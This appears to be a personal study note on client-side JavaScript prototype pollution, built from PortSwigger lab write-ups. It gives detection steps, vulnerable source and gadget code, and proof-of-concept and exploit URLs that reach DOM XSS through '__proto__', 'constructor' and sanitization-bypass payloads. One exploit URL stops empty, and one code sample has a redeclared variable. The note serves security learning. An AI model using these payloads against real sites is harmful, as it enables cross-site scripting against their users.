





# General PPCS detection

## Finding client-side prototype pollution sources 

Finding [Prototype pollution sources](Prototype%20Pollution.md#Prototype%20pollution%20sources) manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works.

High-level steps:
1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input
   >[!example]
   >`vulnerable-website.com/?__proto__[foo]=bar`
2. In your browser console, inspect `Object.prototype` to see if you have successfully polluted it with your arbitrary property
   >[!example]
   >```js
   >Object.prototype.foo
// "bar" indicates that you have successfully polluted the prototype
// undefined indicates that the attack was not successful
>```
3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa
   >[!example]
   >`vulnerable-website.com/?__proto__.foo=bar`
4. Repeat this process for each potential source

If non of this work, you may still be able to pollute via the constructor

**DOM Invader**

As you can see, finding prototype pollution sources manually can be a fairly tedious process. Instead, we recommend using DOM Invader, which comes preinstalled with Burp's built-in browser. DOM Invader is able to automatically test for prototype pollution sources as you browse, which can save you a considerable amount of time and effort.

```cardlink
url: https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution
title: "Testing for client-side prototype pollution"
description: "DOM Invader provides a number of features to help you test for client-side prototype pollution vulnerabilities. These enable you to perform the following ..."
host: portswigger.net
favicon: /content/images/logos/favicon.ico
image: https://portswigger.net/content/images/logos/burpsuite-twittercard.png
```

## Finding prototype pollution gadgets

Once you've identified a source that lets you add arbitrary properties to the global `Object.prototype`, the next step is to find a suitable gadget that you can use to craft an exploit.

1.  Look through the source code and identify any properties that are used by the application or any libraries that it imports.
2.  In Burp, enable response interception (**Proxy > Options > Intercept server responses**) and intercept the response containing the JavaScript that you want to test.
3.  Add a `debugger` statement at the start of the script, then forward any remaining requests and responses.
4.  In Burp's browser, go to the page on which the target script is loaded. The `debugger` statement pauses execution of the script.
5.  While the script is still paused, switch to the console and enter the following command, replacing `YOUR-PROPERTY` with one of the properties that you think is a potential gadget:
```js
Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', { get() { console.trace(); return 'polluted'; } })
//The property is added to the global `Object.prototype`, and the browser will log a stack trace to the console whenever it is accessed.
```
6.  Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
7.  Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
8.  Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as `innerHTML` or `eval()`.
9.  Repeat this process for any properties that you think are potential gadgets.

**DOM Invader**

```cardlink
url: https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets
title: "Testing for client-side prototype pollution"
description: "DOM Invader provides a number of features to help you test for client-side prototype pollution vulnerabilities. These enable you to perform the following ..."
host: portswigger.net
favicon: /content/images/logos/favicon.ico
image: https://portswigger.net/content/images/logos/burpsuite-twittercard.png
```

---

# JavaScript prototype pollution examples

## DOM XSS via client-side prototype pollution

Discovered some prototype pollution sources in `deparam.js`using DOM Invader:

```js
...
params.replace(/\+/g, ' ').split('&').forEach(function(v){
	var param = v.split( '=' ),
		key = decodeURIComponent( param[0] ),
		val,
		cur = obj,
		i = 0,

		keys = key.split( '][' ),
		keys_last = keys.length - 1;
...
if ( keys_last ) {
	for ( ; i <= keys_last; i++ ) {
		key = keys[i] === '' ? cur.length : keys[i];
		cur = cur[key] = i < keys_last
			? cur[key] || ( keys[i+1] && isNaN( keys[i+1] ) ? {} : [] )
			: val;
	}
...
```

PoC:
`https://0a6c00560416887a80c8cba900ce0070.web-security-academy.net/?__proto__[testproperty]=DOM_INVADER_PP_POC`


Fund a gadget in `searchLogger.js`:

```js
if(config.transport_url) {
	let script = document.createElement('script');
	script.src = config.transport_url;
	document.body.appendChild(script);
}
```

[DOM-based XSS](DOM-based%20vulnerabilities.md#DOM-based%20XSS) using [Prototype Pollution](Prototype%20Pollution.md): 
`https://0a6c00560416887a80c8cba900ce0070.web-security-academy.net/?__proto__[transport_url]=data%3A%2Calert%281%29`



## DOM XSS via an alternative prototype pollution vector

Source in `jquery_parseparams.js`:
```js
function createElement(params, key, value) {
	key = key + '';
	// if the key is a property
	if (key.indexOf('.') !== -1) {
		// extract the first part with the name of the object
		var list = key.split('.');
		// the rest of the key
		var new_key = key.split(/\.(.+)?/)[1];
		// create the object if it doesnt exist
		if (!params[list[0]]) params[list[0]] = {};
		// if the key is not empty, create it in the object
		if (new_key !== '') {
			createElement(params[list[0]], new_key, value);
		} else console.warn('parseParams :: empty property in key "' + key + '"');
...
```

PoC:
```js
https://0ae700cc0435545f85b70d8000b10033.web-security-academy.net/?__proto__.testproperty=JOHN

Console > Showing Object.prototype for prototype pollution:
{testproperty: 'DOM_INVADER_PP_POC',constructor: ƒ, __defineGetter__: ƒ, …}
```

Gadget in `searchLoggerAlternative.js`:
```js
...
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
...
```

Exploit:
`https://0ae700cc0435545f85b70d8000b10033.web-security-academy.net/?__proto__.sequence=)};alert(1);//`

## Prototype pollution via the constructor

A common defense is to strip any properties with the key `__proto__` from user-controlled objects before merging them. Unless its prototype is set to `null`, every JavaScript object has a `constructor` property, which contains a reference to the constructor function that was used to create it.

```js
let myObjectLiteral = {};
let myObject = new Object();

myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
```

Remember that functions are also just objects under the hood. Each constructor function has a `prototype` property, which points to the prototype that will be assigned to any objects that are created by this constructor. As a result, you can also access any object's prototype as follows:

```js
myObject.constructor.prototype        // Object.prototype
myString.constructor.prototype        // String.prototype
myArray.constructor.prototype         // Array.prototype
```

As `myObject.constructor.prototype` is equivalent to `myObject.__proto__`, this provides an alternative vector for prototype pollution.

```js
function person(fullName) {
    this.fullName = fullName;
}
var person1 = new person("Satoshi");
//Add function as new property
person.prototype.sayHello = function(){console.log("Hello");}
person1.sayHello() //This now works and prints hello
//Add constant as new property
person.prototype.newConstant = true
person1.newConstant //This now works and is "true"

//The same could be achieved using this other way:
person1.constructor.prototype.sayHello = function(){console.log("Hello");}
person1.constructor.prototype.newConstant = true
```

>[!example]
>[Bypassing input filters for server-side prototype pollution](Prototype%20Pollution%20server-side.md#Bypassing%20input%20filters%20for%20server-side%20prototype%20pollution)


## Bypassing flawed key sanitization

If the sanitization process just strips the string `__proto__` without repeating this process more than once, you can bypass it using a payload like `vulnerable-website.com/?__pro__proto__to__.gadget=payload` that once processed becomes `vulnerable-website.com/?__proto__.gadget=payload`

Broken sanitization:
```js
function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}
```

PoC: 
- `?__pro__proto__to__[testproperty]=DOM_INVADER_PP_POC`
- `/?constconstructorructor.[protoprototypetype][foo]=bar`
```js
> Showing Object.prototype for prototype pollution:
{testproperty: 'DOM_INVADER_PP_POC', a42e5579: 'xioqo5ya', dcb52823: 'xioqo5ya', constructor: ƒ, __defineGetter__: ƒ, …}
```

Exploit: `https://0a8f0099042c2f1e823e470400eb00c4.web-security-academy.net/?__pro__proto__to__[transport_url]=data:,alert(1);`

## Prototype pollution in external libraries

>[!tldr] Widespread prototype pollution gadgets, PortSwigger
>Related research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

jQuery 1.7.1 is vulnerable to prototype pollution [^jquery] 

[^jquery]: https://security.snyk.io/package/npm/jquery/1.7.2

PoC: `/#__proto__[testproperty]=DOM_INVADER_PP_POC`
```js
console > Showing Object.prototype for prototype pollution
testproperty:"DOM_INVADER_PP_POC"
constructor:ƒ Object()
...
```

Found a gadget inside the application:


Exploit: `https://0a280044042010c18077f396009d00e9.web-security-academy.net/#__proto__[hitCallback]=alert%281%29`

## Prototype pollution via `fetch()`

>[!tldr] Widespread prototype pollution gadgets, PortSwigger
>Related research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

When using [`fetch()`](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md#`fetch()`) we explicitly define some properties like `method` and `body`, but there are also a number of other possible properties that we leave undefined.
If an attacker can find a suitable source, they could potentially pollute `Object.prototype` with their own `headers` property. 

Vulnerable code:
```js
fetch('/my-products.json',{method:"GET"})
    .then((response) => response.json())
    .then((data) => {
        let username = data['x-username'];
        let message = document.querySelector('.message');
        if(username) {
            message.innerHTML = `My products. Logged in as <b>${username}</b>`;
        }
        let productList = document.querySelector('ul.products');
        for(let product of data) {
            let product = document.createElement('li');
            product.append(product.name);
            productList.append(product);
        }
    })
    .catch(console.error);
```

Exploit resulting in a [DOM-based XSS](DOM-based%20vulnerabilities.md#DOM-based%20XSS):
`?__proto__[headers][x-username]=`

## Prototype pollution via `Object.defineProperty()`

Developers with some knowledge of prototype pollution may attempt to block potential gadgets by using the `Object.defineProperty()` method. This enables you to set a non-configurable, non-writable property directly on the affected object.

This may initially seem like a reasonable mitigation attempt as this prevents the vulnerable object from inheriting a malicious version of the gadget property via the prototype chain. However, just like the `fetch()` method we looked at earlier, `Object.defineProperty()` accepts an options object, known as a "descriptor". Among other things, developers can use this descriptor object to set an initial value for the property that's being defined. It the value is not set explicitly, it can be polluted.

*searchLoggerConfigurable.js* (vulnerable gadget):
```js
...
let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
...
```

*deparam.js* (source):
```js
...
if ( keys_last ) {
	for ( ; i <= keys_last; i++ ) {
		key = keys[i] === '' ? cur.length : keys[i];
		cur = cur[key] = i < keys_last
			? cur[key] || ( keys[i+1] && isNaN( keys[i+1] ) ? {} : [] )
			: val;
	}
...
```

Exploit:
`/?__proto__[value]=data%3A%2Calert%281%29`

---

